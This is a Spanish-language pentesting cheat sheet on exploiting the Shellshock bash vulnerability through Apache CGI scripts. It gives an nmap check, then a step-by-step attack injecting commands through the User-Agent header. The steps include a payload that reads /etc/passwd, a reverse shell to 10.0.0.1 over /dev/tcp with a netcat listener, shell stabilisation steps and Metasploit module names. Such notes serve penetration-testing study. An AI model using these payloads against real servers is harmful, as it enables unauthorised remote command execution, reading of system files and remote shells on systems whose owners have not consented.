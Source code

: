 
# Introducción
Es una familia de vulnerabilidades encontradas en bash que permitían RCE, permitiendo acceder de forma remota al sistema por medio de una reverse shell. Los comandos se ejecutan después de una serie de caracteres (){ :; };
Los scripts de cgi son usados por Apache y permiten ejecutar comandos en el sistema linux, después el resultado es mostrado al cliente.

Si tras ver una página web, vemos que hay un contenido que, viendo el código fuente de la página, lo muestra haciendo una petición a algún recurso .cgi, por ejemplo gettime.cgi. Sabremos que el apache está usando scripts cgi. 

## MANUAL ATTACK
Podemos comprobar si el apache es vulnerable a shellsock con nmap:
nmap -sV -p80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <ip>

Si es **VULNERABLE** podremos inyectar comandos utilizando cabeceras HTTP, en concreto la de user agent.

SHELLSHOCK ATTACK

1- Abrimos foxyproxy y burpsuite (estando en la ruta web del .cgi. Ejemplo http:ejemplo.com/gettime.cgi)
2- Intercept on->Repeater
3- Manipulamos la cabecera User-Agent. Eliminamos su contenido y lo dejamos como:
User-Agent: () { :; }; echo; echo;<command>
Ejemplo:
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'

Entonces para acceder remotamente tenemos que:
1.- Nos ponemos en escucha con nc -nvlp 4444
2.- Hacemos una peticion GET a la ruta del fichero .cgi manipulando con burpsuite la cabecera User-Agent tal que así:
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/7777 0>&1'

3.- Tratamiento de la tty:
     1-script /dev/null -c bash
     2- control+z
     3.- stty raw -echo;fg
     4.- reset
     5.- export TERM=xterm



# CON METASPLOIT

El scanner para ver si es vulnerable es: auxiliary/scanner/http/apache_mod_cgi_bash_env

el módulo es exploit/multi/http/apache_mod_cgi_bash_env_exec

TARGETURI: El path al script.cgi: /gettime.cgi